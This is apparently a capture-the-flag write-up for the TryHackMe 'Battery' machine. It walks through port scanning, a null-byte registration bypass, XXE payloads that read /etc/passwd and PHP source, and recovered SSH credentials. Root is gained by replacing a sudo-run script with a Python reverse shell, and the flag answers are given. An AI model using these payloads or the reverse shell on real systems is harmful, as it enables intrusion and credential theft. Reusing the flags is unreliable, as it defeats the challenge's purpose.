








# Battery

## Description

CTF designed by CTF lover for CTF lovers

Electricity bill portal has been hacked many times in the past , so we have fired one of the employee from the security team , As a new recruit you need to work like a hacker to find the loop holes in the portal and gain root access to the server.

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:

* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 14:6b:67:4c:1e:89:eb:cd:47:a2:40:6f:5f:5c:8c:c2 (DSA)
|   2048 66:42:f7:91:e4:7b:c6:7e:47:17:c6:27:a7:bc:6e:73 (RSA)
|   256 a8:6a:92:ca:12:af:85:42:e4:9c:2b:0e:b5:fb:a8:8b (ECDSA)
|_  256 62:e4:a3:f6:c6:19:ad:30:0a:30:a1:eb:4a:d3:12:d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web serrvice

Let's start with enumerating the web service. The main page has nothing to offer, so I ran `gobuster` on it with `-x` switch to also look for the files with the specified extentions:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -xphp,html,txt,zip
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.159/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt,zip
[+] Timeout:                 10s
===============================================================
2021/11/27 08:57:02 Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 200) [Size: 663] 
/dashboard.php        (Status: 302) [Size: 908] [--> admin.php]
/forms.php            (Status: 200) [Size: 2334]               
/index.html           (Status: 200) [Size: 406]                
/logout.php           (Status: 302) [Size: 0] [--> admin.php]  
/register.php         (Status: 200) [Size: 715]                
/report               (Status: 200) [Size: 16912]              
/scripts              (Status: 301) [Size: 313] [--> http://10.10.104.159/scripts/]
/server-status        (Status: 403) [Size: 292]                                   
/with.php             (Status: 302) [Size: 1259] [--> admin.php]
~~~

We found a few directories. Before having access to the php pages, we need to register a user via `/register.php`. After registering a test user and loggin in, we are redirected to `/dashboard.php`:

If you click on "My Account" and "command", we get an alert which says that we need to be an admin to access this page.

### report binary

If you navigate to `/report`, you can download a binary named `report`. After downloading it, I marked it as executable (`chmod +x report`) and ran it. It asks for a username and a password which we have none,so we get an error.

I ran `strings` command on it to find the strings inside the binary and found a list of users:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ strings report             
/lib64/ld-linux-x86-64.so.2

[REDACTED]

===============List of active users================
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a

[REDACTED]
~~~

To make sure that I have all the usernames, I used `radare2` to quickly check the binary out (you can also use `ghidra` or any other disassembler of your choice). Just run `aaa` followed by `pdf@sym.users` in `r2` and you can see all the usernames:

Here's the list of all the users in the binary:

* support@bank.a
* contact@bank.a
* cyber@bank.a
* admins@bank.a
* sam@bank.a
* admin0@bank.a
* super_user@bank.a
* admin@bank.a
* control_admin@bank.a
* it_admin@bank.a

Btw, we can use `guest` as the username to enter the program, but we are not gonna find more information. Now we have usernames which are the emails and we can try to login as one of the users in the webpage and somehow bypass the authentification.

### Bypassing authentification

I tried different methods to get passed the user check and null character worked. I was able to bypass the user check placed on the registration page. What we're doing is that when we want to add a new user, we enter the name of the admin username and using a null character (`%00`) we trick the server that the user doesn't exist but in reality, the user stays the same but the password changes to ours in the database. (I don't want to make this messy, so just search it and you'll find some good info about this method).

The steps are as follows:

1. Head to `/register.php` and fill the fields. The username we're using is admin's and we can confirm this by trying the other ones. Make the password simple because we're going to use it:

2. Now run `burpsuite` and intercept the request sent after clicking on "Register me!" and add a null character (`%00`) to the end of the username and as you can see, after sending the request, we get a message that says "Registered successfully!", which means bypassed the user check:

3. Now head to `/admin.php` and login with admin's username and the password you entered and we are logged in as admin and we can confirm this by checking "command" section which we didn't have access to, as a regular user:

## XXE

Now that we have access to admin panel, we can try to gain a shell. I tried many things, but none worked. Then I decided to take a look at the request sent in `/forms.php` page using `burpsuite` and take a look at this:

We are looking at XML code and it's worth to check if it is vulnerable to XXE attack. I used burp's repeater to try different things on it and I was able to read `/etc/passwd` on the server using the following payload:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
   <!ELEMENT lol ANY >
   <!ENTITY haha SYSTEM  "file:///etc/passwd" >]>
<root><name>sth</name><search>&haha;</search></root>
~~~

Here's the result on burp:

From this file, I found two user on the machine named `cyber` and `yash`. Next I tried reading different files on the machine, like the html files, but I got nothing. I decided to use PHP wrappers and the payload worked. I used the following payload to get `admin.php` file:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
   <!ELEMENT lol ANY >
   <!ENTITY haha SYSTEM  "php://filter/convert.base64-encode/resource=/var/www/html/admin.php" >]>
<root><name>sth</name><search>&haha;</search></root>
~~~

As you can see in the following image, we got a long base64 string which is `admin.php` file. I decoded it and found an interesting comment in the buttom of the code:

Let's see the comment now:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ echo "PGh0bWw+Cjx0aXRs [REDACTED] p9Cn0KCgo/Pgo=" | base64 -d > admin.php

┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ tail admin.php -n7
//A note from Admin of Bank Of CC : I have saved my credentials in a file , let's see if you can find it ;)

[REDACTED]
~~~

I decided to check the other files and found the creds in `acc.php`. Here's the payload to get the base64 encoded file:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
   <!ELEMENT lol ANY >
   <!ENTITY haha SYSTEM  "php://filter/convert.base64-encode/resource=/var/www/html/acc.php" >]>
<root><name>sth</name><search>&haha;</search></root>
~~~

Here's the creds for SSH:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ echo "PCFET0NUWVBFIGh0b [REDACTED] bCIpOwp9Cj8+Cg==" | base64 -d > acc.php
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ grep "//" acc.php
//MY CREDS :- cyber:super#secure&password!
~~~

* Username: `cyber`
* Password: `super#secure&password!`

## Base flag

Now we can connect to the machine via SSH as user `cyber` and read the Base flag using the creds we just got (`cyber:super#secure&password!`):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ ssh cyber@$IP
cyber@10.10.104.159's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

[REDACTED]

Last login: Tue Nov 17 17:02:47 2020 from 192.168.29.248
cyber@ubuntu:~$ id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
cyber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt 
THM{6f7e4dd134e19af144c88e4fe46c67ea}

Sorry I am not good in designing ascii art :(
~~~

Base Flag: `THM{6f7e4dd134e19af144c88e4fe46c67ea}`

## Privilege Escalation

Now we need to escalate our privilege to obtain the other flags. I ran `sudo -l` to check my sudo permissions:

~~~
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
~~~

As you can see, we can run a python script named `run.py` located in our home directory, using `python3` as `root`. The file is owned by root and we don't have write access:

~~~
cyber@ubuntu:~$ ls -la run.py 
-rwx------ 1 root root 349 Nov 15  2020 run.py
~~~

But, it is located in our home directory, which means we can delete/move it and replace it with a reverse shell with the same name and it would be run as `root` using sudo and gain us a root shell.

Let's do it. First delete the original file or move it somewhere else and create another one with the same name in `/home/cyber`:

~~~
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ touch run.py
~~~

Now use a terminal editor (both vim and nano are available) and add the reverse shell to it. Here's the reverse shell; just add your IP to it and use it:

~~~py
#!/usr/bin/python3

import socket
import os
import pty

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<YOUR IP>",4444))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")
~~~

Now open a listener (`rlwrap nc -lvnp 4444`) and run the new `run.py` using sudo:

~~~
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
~~~

Now we have a root shell on our machine:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.104.159] 51380
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## User flag

Now that we are root, we have access to all the files existing on the machine. Let's check the other user's home directory. We can find the user flag in `yash`'s home directory:

~~~
root@ubuntu:~# cd /home/yash
root@ubuntu:/home/yash# ls
emergency.py  fernet  flag2.txt  root.txt
root@ubuntu:/home/yash# cat flag2.txt
THM{20c1d18791a246001f5df7867d4e6bf5}

Sorry no ASCII art again :(
~~~

User Flag: `THM{20c1d18791a246001f5df7867d4e6bf5}`

* **Note: After checking the files in yash's home directory, I realized that we were not supposed to root the machine the way we did, but anyway, we found an easier and more efficient way : ) .**

## Root flag

Now let's head to `/root` directory to read the root flag:

~~~
root@ubuntu:/home/yash# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  

						battery designed by cyberbot :)
						Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859

THM{db12b4451d5e70e2a177880ecfe3428d}
~~~

Root Flag: `THM{db12b4451d5e70e2a177880ecfe3428d}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something!

Have a g00d 0ne! : )